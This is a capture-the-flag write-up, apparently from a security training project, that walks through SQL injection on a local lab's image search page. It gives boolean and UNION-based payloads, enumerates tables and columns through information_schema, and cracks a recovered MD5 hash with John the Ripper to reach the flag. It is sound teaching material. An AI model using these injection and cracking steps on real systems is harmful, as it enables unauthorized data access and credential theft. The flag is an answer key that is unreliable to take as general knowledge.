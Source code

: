 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

This vulnerability occurs on the [Search Image](http://localhost:8080/index.php?page=searchimg) page. We try every ID starting from `1` and with `5`, we get this:

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Since this input field looks very vulnerable to SQL injections, we try a single quote like in the [Members page](./sql_injection_members)

---

First we try withsingle quote to see if an error comes back, as that would
tell us if this search function is vulnerable for an sql injection.
Sadly we get nothing back so some amount of sanitization is taking place.

We'll try something else :

```
5 OR 1=1--
```

and the output is :

```
ID: 5 OR 1=1--
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 5 OR 1=1--
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 5 OR 1=1--
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 5 OR 1=1--
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 5 OR 1=1--
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

which means that it is vulnerable to sql injections !

Now we use another command to see what tables we have access to

```
ID: -1 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=DATABASE()--
Title: list_images
Url :
```

We can access the values in list_images, as expected.
So now we do list the values :

```
ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: id
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: url
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: title
Url :

ID: 6 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: comment
Url :
```

There is a comment, which is a hidden field normally for the user.
Fecthing the values for the comment gives us :

```
ID: 6 UNION SELECT title, comment FROM list_images--
Title: An image about the NSA !
Url : Nsa

ID: 6 UNION SELECT title, comment FROM list_images--
Title: There is a number..
Url : 42 !

ID: 6 UNION SELECT title, comment FROM list_images--
Title: Google it !
Url : Google

ID: 6 UNION SELECT title, comment FROM list_images--
Title: Earth!
Url : Earth

ID: 6 UNION SELECT title, comment FROM list_images--
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

And we found the flag. Now we just need to decode it using John the Ripper.

```
darklyProject git:(master) ✗ ../john/run/john --format=Raw-MD5 comment
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 22 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2024-11-26 19:24) 0g/s 8564p/s 8564c/s 8564C/s Getflag1905..Getflag1900
Proceeding with wordlist:../john/run/password.lst
Enabling duplicate candidate password suppressor
albatroz         (GetFlag)
1g 0:00:00:00 DONE 2/3 (2024-11-26 19:24) 2.703g/s 645318p/s 645318c/s 645318C/s billy420..sylveste
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

albatroz to sha256 gives us : F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188
